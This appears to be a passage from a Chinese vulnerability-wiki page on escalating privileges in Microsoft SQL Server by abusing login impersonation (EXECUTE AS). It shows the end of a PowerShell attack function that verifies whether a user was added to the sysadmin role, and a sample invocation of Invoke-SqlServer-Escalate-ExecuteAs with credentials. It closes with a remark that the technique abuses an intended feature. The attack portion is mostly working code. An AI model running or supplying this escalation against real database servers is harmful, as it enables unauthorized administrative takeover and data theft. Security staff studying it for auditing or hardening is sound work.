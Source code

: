             # Execute query
            $cmd = New-Object System.Data.SqlClient.SqlCommand($Query,$conn)
            $results = $cmd.ExecuteReader() 

            # Status user
            Write-Host "[*] Verifying that $UsertoElevate was added to the sysadmin role..."

            # Parse query results
            $TableVerify = New-Object System.Data.DataTable
            $TableVerify.Load($results)  

            # Check if user is a sysadmin
            $TableVerify| Select-Object -First 1 status | foreach {

                $VerifySysadmin = $_.status
                if ($VerifySysadmin -eq 1){
                    Write-Host "[*] Success - $UsertoElevate is now a sysadmin!" -foreground "green"
                    Write-Host "[*] All Done."          
                }else{
                    Write-Host "[*] Failed - Something went wrong!." -foreground "red"
                    Write-Host "[*] All Done."
                } 
            }  

            # Close db connection
            $conn.Close()                        
        }else{
             Write-Host "[*] Sorry, the $ConnectUser account can't impersonate any sysadmins." -foreground "red" 
             Write-Host "[*] All done." 
        }  
        
    }

![9.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId38.png)

    Invoke-SqlServer-Escalate-ExecuteAs -SqlUser MyUser1 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![10.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId39.png)

总的来说，利用这个来提权也不算是漏洞，毕竟可能是运维人员想要的正常功能，然后被攻击者利用，达到提权sysadmin的目的。
